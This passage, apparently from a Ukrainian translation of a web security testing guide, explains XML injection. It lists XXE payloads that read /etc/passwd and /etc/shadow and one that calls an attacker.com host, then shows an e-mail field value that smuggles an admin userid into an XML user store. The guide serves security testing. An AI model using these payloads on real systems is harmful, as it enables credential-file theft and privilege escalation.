 Інші корисні тести наведені нижче:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### Вставка тегів
Після виконання першого кроку тестувальник матиме деяку інформацію про структуру XML-документа. Після цього можна спробувати вставити XML-дані та теги. Ми покажемо приклад того, як це може призвести до атаки на підвищення привілеїв.

Розглянемо попередній додаток. Вставивши наступні значення:
```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```
програма створить новий вузол і додасть його до бази даних XML:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```
Отриманий XML-файл добре сформований. Крім того, цілком ймовірно, що для користувача tony значення, пов'язане з тегом userid, є останнім, тобто 0 (ідентифікатор адміністратора). Іншими словами, ми ввели користувача з адміністративними привілеями.
